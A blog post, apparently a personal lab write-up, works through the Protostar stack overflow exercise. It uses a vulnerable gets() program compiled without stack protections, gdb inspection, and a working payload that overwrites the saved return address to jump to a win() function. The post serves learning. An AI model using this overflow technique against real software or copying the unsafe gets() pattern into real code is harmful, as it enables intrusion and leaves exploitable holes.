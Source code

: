 ```yaml
---
title: Binary Exploitation - Protostar - Stack
date: 2019-12-31 07:50:27
tags: Hacking
---
```


# Introduction

A month ago, I started attempting to complete the protostar exploitation exercises. These exercises go through the basics of binary exploitation allowing the student to practice the more fundamental skills on a vulnerable kernel of Linux.

The three main exploits that are taught are string format, stack overflow and heap overflow. The course starts off with the easier versions of these exploits and slowly progresses to challenges that require more precision and understanding.

For this series of blog posts, I'll outline the understanding that's required to create a solution for the final three levels that are a accumulation of the skills that were learned during the previous challenges. 

Much of the solutions were created by following the guide by LiveOverflow on Youtube, however it is probably worth writing up regardless for my own educational purposes.

# Stack Overflows
## Arbitrary Read/Write
The size of the stack frame for any function is determinable at compile-time. This means that it is possible for a stack frame to grow downwards towards the base of the previous stack frame and for current stack frame to *never* overwrite information within the previous one.

Side Note: this is also why dynamic memory cannot be allocated on the stack, the compiler **needs** to know exactly how many bytes to allocate for the stack frame at compile-time and this isn't possible if we dynamically allocate memory in the stack.

However, if certain functions are used in an unsafe way, this will allow data on the stack to be smashed. From the examples, this tends to be a function that writes to a buffer with limited size, however does not check the length of the data being written. If the data is larger than the buffer, the buffer will overflow (sometimes into the stack).

### Example

```cpp
int main(int argc, char **argv)
{
  char buffer[64];
  gets(buffer);
}
--
```

We can overflow the buffer easily by inputting more than the 64 characters that we've allocated for it.

```bash
python -c "print 'A' * 128" | ./a.out   
```
This will overwrite critical stack metadata and cause the program to SEGFAULT.

```bash
  5288 segmentation fault (core dumped)  ./a.out
```

## Code Redirection
There are a couple of ways to redirect code with a stack overflow. The most simple is overwriting the saved instruction pointer, this means that when the current function returns, we can get arbitrary code execution.

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

We can compile this with flags that will disable some of the protections that modern systems have:
```bash
gcc so.c -fno-stack-protector -z execstack -no-pie
```
We can take a look at the effect of overflowing the stack in `gdb`.
```bash
gdb ./a.out
```
We can take a look at `main` by disassembling.
```bash
(gdb) disassemble main
```
```bash
Dump of assembler code for function main:
   0x000000000040054a <+0>:	    push   %rbp
   0x000000000040054b <+1>:	    mov    %rsp,%rbp
   0x000000000040054e <+4>:	    sub    $0x50,%rsp
   0x0000000000400552 <+8>:	    mov    %edi,-0x44(%rbp)
   0x0000000000400555 <+11>:	mov    %rsi,-0x50(%rbp)
   0x0000000000400559 <+15>:	lea    -0x40(%rbp),%rax
   0x000000000040055d <+19>:	mov    %rax,%rdi
   0x0000000000400560 <+22>:	mov    $0x0,%eax
   0x0000000000400565 <+27>:	callq  0x400440 <gets@plt>
   0x000000000040056a <+32>:	mov    $0x0,%eax
   0x000000000040056f <+37>:	leaveq 
=> 0x0000000000400570 <+38>:	retq   
End of assembler dump.
```

We an see our `gets()` call at `main+27`. Let's set a breakpoint before the function returns so we can see the state of the stack. 
```bash
(gdb) break *0x000000000040056f
```

Now let's run the program with an input that will overflow.
```bash
(gdb) run < <(python -c 'print "A" * 128')
```

We should hit the breakpoint that we set previously. Let's check what the stack looks like.
```bash
(gdb) x/50x $rsp-100
```
This commands tells `gdb` that we want to see 50 "words" (technically not words since I'm running a 64bit system) of data `x/50x`, starting at the address of the stack pointer minus one hundred, `$rsp-100`.
```bash
0x7fffffffd874:	0x00000000	0x0040056a	0x00000000	0xffffd9b8
0x7fffffffd884:	0x00007fff	0x00f0b5ff	0x00000001	0x41414141
0x7fffffffd894:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8a4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8b4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8c4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8d4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8e4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8f4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd904:	0x41414141	0x41414141	0x41414141	0x00400400
0x7fffffffd914:	0x00000000	0xffffd9b0	0x00007fff	0x00000000
0x7fffffffd924:	0x00000000	0x00000000	0x00000000	0xa2729df4
0x7fffffffd934:	0x1c11f557	0xa52c9df4
```
We can see that our `A`'s have overwritten a significant portion of the stack. We can see what metadata regarding the stack frame we've overwritten by inspecting the stack frame.
`(gdb) info frame`

We get the following information.
```bash
Stack level 0, frame at 0x7fffffffd8d8:
 rip = 0x400570 in main; saved rip = 0x4141414141414141
 Arglist at 0x4141414141414141, args: 
 Locals at 0x4141414141414141, Previous frame's sp is 0x7fffffffd8e0
 Saved registers:
  rip at 0x7fffffffd8d8
```
We can see that we've overwritten a large portion of the stack frame metadata, but we've also written the saved `rip` which is the address of that the program will return to after the current function returns. If we overwrite this saved instruction pointer with something that we want, then we can change code flow.

From the output of `info frame` we can see that the saved instruction pointer is at `0x7fffffffd8d8`, which means that we'll need 72 characters to reach it, followed by the address of the place we want to go (which in this case is the `winner()` function).

We can find out the address of `winner()` using the `print` command.
```bash
(gdb) print win
```
We get the following output.
```bash
$2 = {<text variable, no debug info>} 0x400537 <win>
```

This means that the functions starts at `0x400537`.
This means the address bytes will be `\x00\x00\x00\x00\x00\0x40\x05\x37`, but I'm on a little endian system (and most likely so are you), so we'll need to flip the bytes, `\x37\x05\x40\x00\x00\x00\x00\x00`. 

Let's try this in `gdb`.
```bash
r < <(python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00\x00\x00'")
```

Using `c` to continue past the breakpoint we can see that we've successfully changed code execution.
```bash
(gdb) r < <(python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00\x00\x00'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/winstonzhao/Projects/sb/stackoverflow/a.out < <(python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00\x00\x00'")

Breakpoint 1, 0x0000000000400570 in main ()
(gdb) c
Continuing.
code flow successfully changed

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```
